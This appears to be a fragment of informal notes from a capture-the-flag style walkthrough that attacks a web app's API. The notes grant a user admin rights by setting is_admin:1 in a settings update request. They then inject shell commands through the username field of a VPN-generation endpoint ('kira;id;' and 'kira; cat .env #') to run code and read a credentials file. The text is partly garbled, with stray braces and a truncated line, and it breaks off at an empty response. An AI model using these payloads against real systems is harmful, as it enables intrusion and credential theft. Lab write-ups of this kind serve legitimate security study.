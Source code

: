 {{{{("jeez obsucate it uyoursself.")
{"v1":{"user":{"GET":{"\/api\/v1":"Route List","\/api\/v1\/invite\/how\/to\/generate":"Instructions on invite code generation","\/api\/v1\/invite\/generate":"Generate invite code","\/api\/v1\/invite\/verify":>
____________________________________________________________________________________________
# got this

{"loggedin":true,"username":"kira","is_admin":0}

#from 
GET /api/v1/user/auth HTTP/1.1

____________________________________________________________________________________________
#got this

{"message":false}

#from
GET /api/v1/admin/auth HTTP/1.1

____________________________________________________________________________________________

# breakthrough
"Got this"
{"id":20,"username":"kira","is_admin":1}

"from this"
PUT /api/v1/admin/settings/update HTTP/1.1

{
"email":"kira@mail.com",
"is_admin":1
}
____________________________________________________________________________________________
now now we are said to abuse
/api/v1/admin/generate/vpn but...
most walkthroughs just say “do OS command injection here” without explaining why that endpoint screams injection. Let’s break it down;

- The endpoint’s name implies it’s generating VPN configs.
- That often involves calling system tools like openvpn, easy-rsa, or shell scripts.
- If the backend is invoking shell commands with user-supplied input (e.g., username, config name), that’s a classic injection vector

# further testing

"Got this"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

"From"
/api/v1/admin/generate/vpn

{
"email":"kira@mail.com",
"username": "kira;id;",
"is_admin":1
}
____________________________________________________________________________________________
# got credentials

REQUEST
{
"email":"kira@mail.com",
"username": "kira; cat .env #",
"is_admin":1
}

RESPONSE

}}}}}}}}

